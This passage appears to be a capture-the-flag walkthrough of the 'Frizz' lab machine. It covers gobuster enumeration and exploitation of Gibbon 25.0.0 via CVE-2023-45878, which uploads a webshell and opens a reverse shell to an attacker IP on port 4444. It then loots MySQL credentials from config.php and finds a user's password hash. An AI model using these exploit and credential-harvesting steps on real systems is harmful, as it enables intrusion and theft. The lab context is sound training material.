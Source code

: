 ### DIRBUSTER / GOBUSTER

```
gobuster dir -u http://frizzdc.frizz.htb -w /usr/share/wordlists/dirb/common.txt

/.htaccess (403)
/.htpasswd (403)
... stb.
/Home   (301)  → http://frizzdc.frizz.htb/Home/
/home   (301)  → http://frizzdc.frizz.htb/home/
```

---

## Web Application Recon / Initial Foothold

**Identified app: GIBBON 25.0.0 (open-source school management system)

- Google: there’s a known CVE, relevant exploit: **CVE-2023-45878**
- Exploit: **Upload reverse shell via webshell**

**Running the exploit script:**

```
bash CVE-2023-45878.sh 10.10.14.52 4444 10.10.11.60:80
```

- Uploads the shell
- Opens: http://10.10.11.60:80/Gibbon-LMS/gibbon_myconfig.php?cmd=whoami
- Start a Netcat/Metasploit listener: 'nc -lnvp 4444' or handler

**Result:** basic reverse shell (command prompt)

---

## First user / credential hunting

**Found file: config.php → **MySQL user/pass**

```
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parr*****';
```

**Login in MySQL:**

```
C:\xampp\mysql\bin> .\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parr*****" -e "show databases;"
```

- Main DB: `gibbon`
- User table: `gibbonperson`

**Identified user:**

- username: f.frizzle
- password hash + salt

